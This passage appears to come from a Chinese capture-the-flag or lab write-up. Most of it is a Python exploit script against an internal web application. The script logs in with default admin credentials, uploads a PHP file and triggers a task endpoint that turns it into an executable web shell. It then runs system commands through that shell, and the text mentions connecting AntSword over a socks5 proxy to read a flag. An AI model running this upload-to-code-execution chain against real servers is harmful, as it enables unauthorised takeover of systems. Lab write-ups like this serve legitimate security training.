 如下

```bash
import requests

session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=::',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']

url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('whoami');")
print(url_pre + filepath + "?1=system('whoami');")
print(r.text)
```

蚁剑挂上`socks5`代理，成功读取第二部分 flag

[![](assets/1709193375-0e209d458a30792ad00e69ff3b996eda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205353-42d8a2b2-d56f-1.png)
